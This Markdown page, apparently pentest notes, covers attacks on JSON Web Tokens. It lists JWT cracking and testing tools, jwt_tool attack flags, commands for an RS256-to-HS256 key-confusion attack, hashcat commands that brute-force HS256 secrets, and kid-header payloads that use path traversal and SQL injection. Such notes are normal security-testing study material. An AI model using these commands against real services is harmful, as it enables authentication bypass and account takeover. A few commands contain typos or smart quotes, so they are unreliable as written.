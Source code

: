 # Tools

- [JWT.io](https://jwt.io/) - Debugging and testing JWT
- [JWK Set Generator](https://mkjwk.org/) - Generate JWK Sets
- [JWT Decoder](https://jwt.io/tools?tab=decode) - Decode JWT
- [GitHub — ticarpi/jwt_tool: A toolkit for testing, tweaking and cracking JSON Web Tokens](https://github.com/ticarpi/jwt_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens
- [GitHub — hahwul/jwt-hack: 🔩 jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)](https://github.com/hahwul/jwt-hack) - 🔩 jwt-hack is tool for hacking / security testing to JWT. Supported for En/decoding JWT, Generate payload for JWT attack and very fast cracking(dict/brutefoce)
- [GitHub — mazen160/jwt-pwn: Security Testing Scripts for JWT](https://github.com/mazen160/jwt-pwn) - Security Testing Scripts for JWT 
- [GitHub — brendan-rius/c-jwt-cracker: JWT brute force cracker written in C](https://github.com/brendan-rius/c-jwt-cracker) - JWT brute force cracker written in C
- [GitHub — jmaxxz/jwtbrute: Brute forcing jwt tokens signed with HS256 since 2014](https://github.com/jmaxxz/jwtbrute) - Brute forcing jwt tokens signed with HS256 since 2014
- [GitHub — Sjord/jwtcrack: Crack the shared secret of a HS256-signed JWT](https://github.com/Sjord/jwtcrack) - Crack the shared secret of a HS256-signed JWT
- [JSON Web Tokens](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) - Burp extension to decode JWT
- [JSON Web Token Attacker](https://portswigger.net/bappstore/f923cbf91698420890354c1d8958fee6) - Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources 
- [GitHub — wallarm/jwt-heartbreaker: The Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources](https://github.com/wallarm/jwt-heartbreaker) - The Burp extension to check JWT (JSON Web Tokens) for using keys from known from public sources 
-  [JWTweak](https://rishuranjanofficial.github.io/JWTweak/) - JWT Tweak Tool 
- [jwt_tool](https://github.com/ticarpi/jwt_tool) - A toolkit for testing, tweaking and cracking JSON Web Tokens 



## jwt_tool Commands:

- `jwt_tool -d <jwt_token>` - Decode JWT
- `jwt_tool -e <jwt_token>` - Encode JWT
- `jwt_tool -t <jwt_token>` - Test JWT
- `jwt_tool -p <jwt_token>` - Print JWT
- `jwt_tool <JWT_Token> -C -d passwordList.txt` 
- `jwt_tool <JWT_Token> -X n` 
- `jwt_tool <JWT_Token> -X a` 
- `jwt_tool <JWT_Token> -X b` 
- `jwt_tool -t http://example.com -rh “Authorization: Bearer <JWT_Token>” -M pb` 
- `jwt_tool <JWT_Token> -X k -pk < public-key-pem >` 
- `jwt_tool -h` 

![alt text](image.png)



## Change Algorithm from RS256 to HS256:
- Get the Public key from the application (e.g., pubkey.pem file) using the following commands:
`openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem`
`openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem`    

or 
`oopenssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout`

commnad: `python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem`


## Crack the Secret Key:
`hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --force`

`hashcat -a 0 -m 16500 jwt_token.txt /usr/share/wordlist/rockyou.txt --show   # to display the cracked secret key`

## Attacks Using kid in JWT Token
`python3 jwt_tool.py <JWT> -I -hc kid -hv "../../dev/null" -S hs256 -p ""`
`python3 jwt_tool.py -I -hc kid -hv "path/of/the/file" -S hs256 -p "Content of the file"`
`python3 jwt_tool.py <JWT> -I -pc name -pv "admin' ORDER BY 1--" -S hs256 -k public.pem`




#### References:
- [write-up](https://medium.com/@0x_xnum/all-about-jwt-vulnerabilities-ef7314c4dd02) - All about JWT Vulnerabilities
- [wordlist for bruteforce](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list) - Wordlist for bruteforce
- 






